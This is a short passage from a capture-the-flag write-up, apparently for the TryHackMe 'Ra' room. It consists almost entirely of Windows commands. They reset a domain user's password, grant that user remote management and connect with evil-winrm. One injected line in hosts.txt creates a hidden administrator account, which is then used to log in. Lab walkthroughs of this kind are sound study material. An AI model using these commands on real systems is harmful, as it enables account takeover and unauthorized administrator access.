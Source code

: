 ![Ra](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Ra/screenshots/20250506202822.png)

```
Set-ADAccountPassword -Identity brittanycr -NewPassword (ConvertTo-SecureString "Newpass123456789" -AsPlainText -Force) -Reset
```

> [!NOTE]
> brittanycr:Newpass123456789

```
net localgroup "Remote Management Users" brittanycr /add /domain
```

```
evil-winrm --user "brittanycr" --password "Newpass123456789" -i 10.10.190.19
```

```
cd "C:\Users\brittanycr\"
```

```
echo ";net user Goose helloASDGVRshdfgwehrAFWISUd!123 /add;net localgroup Administrators Goose /add"> hosts.txt
```

# Flag3
```
evil-winrm --user "Goose" --password helloASDGVRshdfgwehrAFWISUd!123 -i 10.10.190.19
```